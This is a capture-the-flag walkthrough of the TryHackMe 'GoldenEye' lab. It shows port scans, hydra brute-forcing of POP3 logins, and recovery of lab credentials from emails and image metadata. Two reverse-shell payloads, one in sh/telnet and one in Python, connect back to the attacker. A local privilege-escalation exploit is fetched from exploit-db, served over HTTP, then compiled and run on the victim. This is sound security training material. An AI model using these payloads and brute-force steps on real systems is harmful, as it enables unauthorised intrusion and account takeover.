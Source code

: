 # GoldenEye

**Room Link:** [https://tryhackme.com/room/goldeneye](https://tryhackme.com/room/goldeneye)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find a encoded password and also a potential other user, Natalya.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can login to /sev-home now



```
Username: boris
Password: InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/55007 - POP3

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 55007
USER natalya
PASS bird
RETR 1
RETR 2
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

New password still doesn't work but maybe can be used elsewhere.

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS secret1!
RETR 1
RETR 2
RETR 3
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Added severnaya-station.com to my hosts file and then navigated to http://severnaya-station.com/gnocertdir as mentioned in the email

```
username: xenia
password: RCP90rulez!
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

**Kali**

```
telnet $VICTIM 55007
USER doak
PASS goat
RETR 1
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
exiftool for-007.jpg 
echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d 
```

<figure><img src="../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>

It was the password for admin

```
Username: admin
Password: xWinter1995x!
```



## **Initial Shell**

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
sh -c '(sleep 4062|telnet $KALI 4444|while : ; do sh && break; done 2>&1|telnet $KALI 4444 >/dev/null 2>&1 &)'
```

<figure><img src="../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

It kind of worked but the shell kept breaking so I switched it to a python one and did the same thing.

**Kali**

<pre><code><strong>nc -lvnp 4444
</strong></code></pre>

**Browser**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

<figure><img src="../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### Privlege Escalation

Just changed below line from gcc to cc as gcc is not installed on the host

**Kali**

```
wget https://www.exploit-db.com/raw/37292 -O ofs.c 
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp/
wget http://$KALI:81/ofs.c 
id
cc ofs.c -o ofs
./ofs
id
whoami
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

